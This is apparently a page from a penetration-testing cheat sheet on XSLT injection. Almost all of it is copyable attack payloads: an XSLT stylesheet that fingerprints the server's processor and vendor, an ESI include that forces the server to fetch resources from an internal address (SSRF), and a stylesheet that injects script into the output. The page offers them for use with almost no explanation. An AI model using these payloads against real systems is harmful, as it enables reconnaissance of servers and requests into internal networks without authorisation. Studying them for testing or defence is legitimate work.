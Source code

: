 

#### Fingerprint

Upload this and take information

Copy

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```

#### SSRF

Copy

```
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl">
</esi:include>
```

#### Javascript Injection

Copy

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```
